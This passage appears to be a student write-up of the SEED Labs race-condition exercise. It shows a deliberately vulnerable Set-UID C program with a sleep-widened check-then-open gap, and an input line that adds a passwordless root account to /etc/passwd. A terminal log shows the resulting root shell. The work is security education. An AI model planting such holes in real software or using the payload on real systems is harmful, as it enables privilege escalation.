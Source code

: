 In this task we add a `sleep()` call in the middle of the code to make us change the symbolic link during that "pause" and allow us to write on the `/etc/passwd` file. 

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

int main()
{
    char* fn = "/tmp/XYZ";
    char buffer[60];
    FILE* fp;

    /* get user input */
    scanf("%50s", buffer);

    if (!access(fn, W_OK)) {
        sleep(10);
        fp = fopen(fn, "a+");
        if (!fp) {
            perror("Open failed");
            exit(1);
        }
        fwrite("\n", sizeof(char), 1, fp);
        fwrite(buffer, sizeof(char), strlen(buffer), fp);
        fclose(fp);
    } else {
        printf("No permission \n");
    }

    return 0;
}
```

We first compile the program with the `gcc vulp.c -o vulp` command, and make it a Set-UID program by issuing the `sudo chown root vulp` and `sudo chmod 4755 vulp` commands. In this case, the effective user ID will be the root's user ID (0). Afterward, when executing the vulnerable `vulp` script, we have to keep in mind that the input passed to the vulnerable program will further be written to the `/tmp/XYZ` program and is the same as the one we inserted manually: `test:U6aMy0wojraho:0:0:test:/root:/bin/bash`. After the execution, the `/etc/passwd` file is indeed modified and we are now able to switch to the test user which detains root privileges.

```
┌──(kali㉿kali)-[~/…/seed-labs/category-software/Race_Condition/Labsetup]
└─$ ./vulp
test:U6aMy0wojraho:0:0:test:/root:/bin/bash
                                                                                                                                           
┌──(kali㉿kali)-[~/…/seed-labs/category-software/Race_Condition/Labsetup]
└─$ su test             
Password: 
┌──(root㉿kali)-[/home/kali/Documents/seed-labs/category-software/Race_Condition/Labsetup]
└─# 
```
